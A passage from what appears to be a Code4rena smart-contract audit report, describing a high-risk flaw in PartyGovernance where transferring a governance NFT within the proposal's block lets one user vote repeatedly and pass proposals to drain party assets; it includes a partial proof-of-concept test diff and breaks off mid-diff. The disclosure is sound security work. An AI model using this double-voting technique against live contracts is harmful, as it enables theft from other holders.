 Further information regarding the severity criteria referenced throughout the submission review process, please refer to the documentation provided on [the C4 website](https://code4rena.com).

# High Risk Findings (7)
## [[H-01] PartyGovernance: Can vote multiple times by transferring NFT in same block as proposal](https://github.com/code-423n4/2022-09-party-findings/issues/113)
_Submitted by Lambda, also found by Trust_

`PartyGovernanceNFT` uses the voting power at the time of proposal when calling `accept`. The problem with that is that a user can vote, transfer the NFT (and the voting power) to a different wallet, and then vote from this second wallet again during the same block that the proposal was created.
This can also be repeated multiple times to get an arbitrarily high voting power and pass every proposal unanimously.

The consequences of this are very severe. Any user (no matter how small his voting power is) can propose and pass arbitrary proposals animously and therefore steal all assets (including the precious tokens) out of the party.

### Proof Of Concept

This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:

```diff
--- a/sol-tests/party/PartyGovernanceUnit.t.sol
+++ b/sol-tests/party/PartyGovernanceUnit.t.sol
@@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         TestablePartyGovernance gov =
             _createGovernance(100e18, preciousTokens, preciousTokenIds);
         address undelegatedVoter = _randomAddress();
+        address recipient = _randomAddress();
         // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
         gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));
 
@@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         // Undelegated voter submits proposal.
         vm.prank(undelegatedVoter);
         assertEq(gov.propose(proposal, 0), proposalId);
-
-        // Try to execute proposal (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
-
-        // Skip past execution delay.
-        skip(defaultGovernanceOpts.executionDelay);
-        // Try again (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
```